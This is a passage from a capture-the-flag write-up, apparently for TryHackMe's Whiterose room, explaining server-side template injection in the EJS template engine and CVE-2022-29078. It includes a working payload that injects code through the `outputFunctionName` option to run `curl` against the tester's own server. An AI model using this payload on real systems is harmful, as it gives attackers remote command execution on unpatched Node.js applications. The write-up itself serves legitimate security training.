 [![Web 80 Admin Settings Four](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings4.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings4.webp)

```ad-note
`TypeError: /home/web/app/views/settings.ejs:4<br>    2\| <html lang="en"><br>    3\|   <head><br> >> 4\|     <%- include("../components/head"); %><br>    5\|     <title>Cyprus National Bank</title><br>    6\|   </head><br>    7\|   <body><br>
include is not a function
<br>    at eval ("/home/web/app/views/settings.ejs":12:17)<br>    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)<br>    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)<br>    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)<br>    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)<br>    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)<br>    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)<br>    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)<br>    a/home/web/app/routes/settings.js:27:7    at runMicrotasks (<anonymous>)`
````

And when we use the `async` parameter, we simply receive `{}` in the response.

[![Web 80 Admin Settings Five](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings5.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings5.webp)

From the error, we learn that the application uses **EJS** as a template engine. If the application directly passes our request body to the `render` function as the `data` argument, this could lead to an **SSTI** vulnerability. This is because **EJS** allows certain options, such as `client` and `async`, to be included in the same argument as the data. Notably, the fact that the `client` option causes an error and using the `async` option results in the server responding with only `{}` suggests that this might be the case here.

We can try to confirm this by using the `delimiter` option, which is also one of the options allowed to be passed along with data. By default, it is set to `%`. If we change it to a string that does not exist in the template, we should be able to leak the template.

Testing our theory, we find that we are correct, as we successfully leak the template.

[![Web 80 Admin Settings Six](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)

As I mentioned before, there are only a limited number of options allowed to be passed along with data. However, this is where the `CVE-2022-29078` vulnerability comes into play. By using the `settings['view options']` parameter, we are able to pass any option without limitation.

And there are certain options, like `outputFunctionName`, that are used by **EJS** without any filtration to build the template body, allowing us to inject code it.

You can find more information about the vulnerability and the **PoC** [here in this article](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

Testing the **PoC** payload from the article, we find that it works, as we receive a request on our server.

`settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22');s|`

[![Web 80 Admin Settings Seven](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)
